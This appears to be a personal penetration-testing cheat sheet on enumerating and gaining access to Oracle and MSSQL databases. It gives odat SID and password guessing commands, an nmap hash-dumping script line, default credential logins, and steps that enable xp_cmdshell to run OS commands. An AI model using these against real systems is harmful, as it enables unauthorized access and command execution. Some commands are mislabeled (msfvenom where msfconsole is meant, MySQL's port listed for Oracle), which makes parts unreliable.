 
# Oracle DB 
- **can run on a variety or ports including: 3306, 1433, 1521**

## What is it?
- a port used to connect to a target's database
- authenticated users (and maybe unauthenticated users) could, for example, run queries

## Enumeration
- use odat
  - setup is terrible but directions will be included inside here
  - python3 odat.py sidguesser -s [ip] -p [port] 
  - python3 odat.py passwordguesser -s [ip] -p [port] -d [SID] 
- nmap
  - nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p [port] [ip]


## Port 1433 SQL
- gaining a connection
  - unless you brute force, you'll probably need to enumorate a username and password
  - sqsh -S [ip] -U [username] 
    - will prompt you for password after this
    - default username: sa
    - defualt passwords: [blank], Password123

    
  ### sqsh Shell commands
    - xp_cmdshell 'whoami';
    - go
    - might have to enable xp_cmdshell
      - EXEC sp_configure 'show advanced options', 1;
      - RECONFIGURE
      - EXEC sp_configure 'xp_cmdshell', 1;
      - RECONFIGURE
    - 
  
  ## Port 1521 SQL
  - use the odat tool to make this work
  - you want to find an sid and user creds
    - $> python3 odat.py sidguesser -s [ip] -p [port]
    - $> python3 odat.py passwordguesser -s [ip] -p [port]
- using msfconsole to brute
    - $> sudo msfvenom
    - $> use admin/oracle/oracle_login
    - $> set RHOST [ip]
    - $> set SID [sid enum'd]
    - $> run
  
  
  
  


